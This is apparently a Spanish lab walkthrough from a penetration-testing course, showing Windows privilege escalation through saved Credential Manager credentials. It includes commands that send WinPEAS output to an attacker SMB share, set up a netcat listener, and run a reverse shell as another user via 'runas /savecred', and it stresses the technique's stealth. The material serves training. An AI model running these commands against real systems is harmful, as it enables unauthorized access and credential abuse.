







> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# Credenciales Almacenadas (Credential Manager)

# 💾 Contraseñas Almacenadas en el Sistema

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### 🔐 Escalado de Privilegios con Contraseñas

 

El escalado de privilegios mediante contraseñas es una técnica en la cual un atacante intenta obtener privilegios más altos en un sistema comprometido al obtener o crackear contraseñas de usuarios con privilegios inferiores. Esto les permite acceder a recursos restringidos y realizar acciones que normalmente no estarían permitidas.

 

### 🎯 Métodos de Obtención de Contraseñas

 

Algunos métodos para elevar privilegios a través de contraseñas son:

 

> [!warning]
> 
 
> #### ⚠️ Técnicas de Ataque con Contraseñas:
> 

> 

> 
> * 
> **Uso de contraseñas débiles o predecibles:** Los atacantes pueden intentar adivinar contraseñas débiles o predecibles que hayan sido configuradas por los usuarios o que estén presentes en listas comunes de contraseñas utilizadas. Esto se conoce como "ataque de fuerza bruta" o "ataque de diccionario". Los atacantes prueban múltiples combinaciones de contraseñas hasta encontrar una que funcione.
> 
 
> * 
> **Ataques de reutilización de contraseñas:** Muchos usuarios tienden a utilizar la misma contraseña para múltiples servicios o cuentas. Si un atacante obtiene acceso a una contraseña de usuario en un servicio o aplicación, puede intentar utilizar esa misma contraseña en otros servicios o en la cuenta de administrador del sistema para lograr un escalado de privilegios.
> 
 
> * 
> **Explotación de vulnerabilidades de hashing o almacenamiento de contraseñas:** Si un sistema almacena contraseñas en un formato inseguro o utiliza algoritmos de hashing débiles, los atacantes pueden intentar extraer las contraseñas directamente del sistema comprometido. Esto puede involucrar el uso de técnicas como ataques de inyección de SQL o aprovechar vulnerabilidades específicas en el sistema o en las aplicaciones que manejan las contraseñas.
> 
 
> * 
> **Uso de técnicas de robo de contraseñas:** Los atacantes también pueden utilizar malware, como keyloggers o spyware, para robar contraseñas mientras los usuarios las ingresan en sus sistemas. Estas técnicas capturan las pulsaciones de teclado o monitorean las actividades del usuario, obteniendo así las contraseñas que luego se utilizan para el escalado de privilegios.
> 

> 

 

### 🛡️ Medidas de Protección

 

Para protegerse contra el escalado de privilegios basado en contraseñas, se recomiendan las siguientes medidas de seguridad:

 

> [!tip]
> 
 
> #### ✅ Buenas Prácticas de Seguridad:
> 
 

> 
> * Utilizar contraseñas seguras y únicas para cada cuenta o servicio. Las contraseñas deben ser lo suficientemente complejas, incluyendo combinaciones de letras, números y caracteres especiales, y no deben ser fáciles de adivinar o encontrar en listas comunes de contraseñas.
> 
> * Implementar autenticación multifactor (MFA) siempre que sea posible. La autenticación multifactor agrega una capa adicional de seguridad al requerir una segunda forma de verificación, como un código generado en una aplicación móvil o un mensaje enviado al teléfono del usuario, además de la contraseña.
> 
> * Mantener los sistemas y aplicaciones actualizados con los últimos parches y actualizaciones de seguridad para mitigar vulnerabilidades conocidas.
> 
> * Utilizar soluciones de seguridad, como antivirus, firewalls y sistemas de detección de intrusos, para detectar y prevenir ataques de robo de contraseñas o malware.
> 
> * Educar a los usuarios sobre las mejores prácticas de seguridad, como no utilizar contraseñas fáciles de adivinar ni guardar credenciales en el sistema.
> 

> 

 

 
 

## 🔍 Descubriendo Contraseñas Almacenadas en el Sistema

 

### ⚙️ Paso 0: Preparar el Entorno (Simulación)

 

Esta práctica, para simular el entorno real, debemos ejecutar el archivo `savecred.bat`, que simula un entorno donde el usuario marca la opción **"Recordar credenciales"**.

 

```cmd
C:\tools> cd C:\Utilities
C:\Utilities> savecred.bat
```

 



 

> [!note]
> 
 
> #### 💡 ¿Qué son las Credenciales Almacenadas?
> 
 
> Windows permite a los usuarios guardar credenciales para acceder a recursos de red, aplicaciones o servicios sin tener que introducir la contraseña cada vez. Estas credenciales se almacenan de forma cifrada en el sistema y se gestionan mediante el **Credential Manager** (Administrador de credenciales).
> 
> **Tipos de credenciales almacenadas:**
> 

> 
> * **Credenciales de Windows:** Para autenticación en dominios, recursos compartidos, RDP
> 
> * **Credenciales genéricas:** Para aplicaciones y sitios web
> 
> * **Credenciales de certificados:** Basadas en certificados digitales
> 

> 
> Si un atacante tiene acceso a estas credenciales guardadas, puede ejecutar comandos con los privilegios del usuario propietario de las credenciales **sin conocer la contraseña**.
> 

 

### 🛠️ Paso 1: Ejecutar WinPEAS

 

Ahora vamos a usar **WinPEAS** para ver si existen contraseñas almacenadas:

 



 

### 📤 Paso 2: Enviar Resultados a Kali por SMB

 

Si queremos podemos enviarlo directamente a nuestra Kali por SMB:

 



 

```cmd
C:\> winPEASany.exe quiet filesinfo userinfo >> \\10.0.0.5\info\winpeas_savedcreds.txt
```

 

### 📊 Paso 3: Analizar los Resultados

 

Vemos en el documento obtenido que hay credenciales del usuario **adminis**:

 



 

> [!warning]
> 
 
> **⚠️ Credenciales Guardadas Detectadas:**
> 
> WinPEAS ha detectado que hay credenciales almacenadas para el usuario **adminis**. Esto significa que podemos ejecutar comandos como ese usuario sin necesidad de conocer su contraseña.
> 

 

### 📋 Paso 4: Verificación Manual con cmdkey

 

Vamos ahora a buscarlas manualmente:

 

```cmd
C:\Utilities> cmdkey /list
```

 



 

> [!tip]
> 
 
> #### 🔧 Comando cmdkey:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `cmdkey /list`
> 
> 
> 
> `cmdkey /add:target /user:usuario /pass:password`
> 
> 
> 
> `cmdkey /delete:target`
> 
> 
> 
> 
> | Comando | Descripción |
> | --- | --- |
> | | Lista todas las credenciales almacenadas para el usuario actual |
> | | Añade una nueva credencial almacenada |
> | | Elimina una credencial almacenada |
> 
 
> **Información mostrada:**
> 

> 
> * **Target:** Destino de la credencial (dominio, servidor, aplicación)
> 
> * **Type:** Tipo de credencial (Domain Password, Generic)
> 
> * **User:** Usuario asociado a la credencial
> 
> * **Persistence:** Alcance de la credencial (Local Machine, Enterprise)
> 

> 

 

 
 

## 💥 Explotando la Vulnerabilidad - Credenciales Guardadas

 

### 🔧 Comando runas

 

El comando **runas** de Windows permite ejecutar un comando o aplicación como otro usuario.

 

En principio necesitaríamos las credenciales de ese usuario, pero si el usuario ha guardado las credenciales, **no sería necesario conocerlas**.

 

> [!note]
> 
 
> #### 💡 ¿Qué es runas?
> 
 
> **runas** (Run As) es un comando de Windows que permite ejecutar programas con las credenciales de otro usuario.
> 
> **Sintaxis básica:**
> 
> ```
> runas /user:dominio\usuario programa.exe
> ```
> 
 
> **Con credenciales guardadas:**
> 
> ```
> runas /savecred /user:usuario programa.exe
> ```
> 
 
> El parámetro `/savecred` le indica a runas que utilice las credenciales almacenadas en el Credential Manager, por lo que **no solicita la contraseña**.
> 

 

### 🎧 Paso 1: Poner Netcat a la Escucha en Kali

 

```bash
$ nc -lvnp 443
```

 

### 🚀 Paso 2: Ejecutar revshell con runas

 

Ponemos Kali en espera y usando el comando `runas` ejecutamos el `revshell.exe` que subimos en la carpeta tools:

 

```cmd
C:\tools> runas /savecred /user:adminis C:\tools\revshell.exe
```

 



 

> [!tip]
> 
 
> #### 🔧 Parámetros del Comando runas:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `runas`
> 
> 
> 
> `/savecred`
> 
> 
> 
> `/user:adminis`
> 
> 
> 
> `C:\tools\revshell.exe`
> 
> 
> 
> 
> | Parámetro | Descripción |
> | --- | --- |
> | | Comando para ejecutar programas como otro usuario |
> | | Utilizar credenciales guardadas (no solicita password) |
> | | Usuario bajo el cual se ejecutará el programa |
> | | Programa a ejecutar (nuestro payload) |
> 
 
> **Otras opciones útiles de runas:**
> 

> 
> * `/profile` - Cargar el perfil del usuario
> 
> * `/env` - Usar el entorno de red actual
> 
> * `/netonly` - Solo usar credenciales para acceso remoto
> 
> * `/smartcard` - Usar credenciales desde una tarjeta inteligente
> 

> 

 

### ✅ Paso 3: Recibir la Shell en Kali

 



 

> [!tip]
> 
 
> #### 🎉 ¡Éxito!
> 
 
> Hemos obtenido una shell ejecutándose con los privilegios del usuario **adminis** sin necesidad de conocer su contraseña.
> 
> Verificar privilegios:
> 
> ```cmd
> C:\> whoami
> DESKTOP-XXXXXX\adminis
> 
C:\> whoami /priv
> C:\> whoami /groups
> ```
> 
 
> **Ventajas de esta técnica:**
> 

> 
> * ✅ No requiere conocer la contraseña del usuario objetivo
> 
> * ✅ No requiere crackar hashes ni fuerza bruta
> 
> * ✅ Aprovecha funcionalidad legítima de Windows
> 
> * ✅ Si el usuario tiene privilegios de administrador, obtenemos privilegios elevados
> 
> * ✅ Puede pasar desapercibido en auditorías básicas
> 

> 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ Windows permite guardar credenciales en el Credential Manager
> 
> * ✅ WinPEAS detecta automáticamente credenciales almacenadas
> 
> * ✅ `cmdkey /list` muestra credenciales guardadas
> 
> * ✅ El comando `runas` permite ejecutar programas como otro usuario
> 
> * ✅ El parámetro `/savecred` usa credenciales guardadas sin solicitar password
> 
> * ✅ Podemos ejecutar payloads con privilegios del usuario objetivo
> 
> * ✅ No necesitamos conocer la contraseña para explotar esta vulnerabilidad
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **WinPEAS/cmdkey** → 
> **Detectar credenciales guardadas** → 
> **Identificar usuario privilegiado** → 
> **Ejecutar payload con runas /savecred** → 
> **Shell con privilegios del usuario**
> 
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **Credential Manager**
> 
> 
> 
> **cmdkey**
> 
> 
> 
> **runas**
> 
> 
> 
> **/savecred**
> 
> 
> 
> **Saved Credentials**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Administrador de credenciales de Windows (credenciales guardadas) |
> | | Comando para gestionar y listar credenciales almacenadas |
> | | Comando para ejecutar programas como otro usuario |
> | | Parámetro que usa credenciales guardadas sin solicitar password |
> | | Credenciales almacenadas cifradas en el sistema |
> 

> 
> ### 📂 Ubicación de Credenciales Almacenadas:
> 
 

> [!note]
> 
 
> ```cmd
> # Ver credenciales guardadas
> cmdkey /list
> 
# Credential Manager (Interfaz gráfica)
> Control Panel > User Accounts > Credential Manager
> 
# Ubicación en disco (cifradas)
> C:\Users\[Usuario]\AppData\Local\Microsoft\Credentials
> C:\Users\[Usuario]\AppData\Roaming\Microsoft\Credentials
> 
# Archivos del sistema de credenciales
> C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
> ```
> 
 

> 
 
> ### ⚖️ Comparación con Otras Técnicas de Contraseñas:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **Contraseñas en Registro**
> 
> 
> 
> 
> 
> **Credenciales Guardadas**
> 
> 
> 
> 
> 
> **Fuerza Bruta**
> 
> 
> 
> 
> 
> **Hash Cracking**
> 
> 
> 
> 
> 
> 
> | Técnica | Requiere Password | Velocidad | Sigilo |
> | --- | --- | --- | --- |
> | | ❌ No | ⚡ Rápida | 🟢 Alto |
> | | ❌ No | ⚡ Rápida | 🟢 Alto |
> | | ✅ Sí (adivina) | 🐌 Lenta | 🔴 Bajo (genera logs) |
> | | ✅ Sí (cracka) | ⏳ Media-Lenta | 🟡 Medio |
> 

> 
> ### 🎯 Navegación:
> 
 
> ← Práctica 05-01: Contraseñas - Registro
> 
> → Práctica 05-03: Contraseñas - Almacenadas en Archivos
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
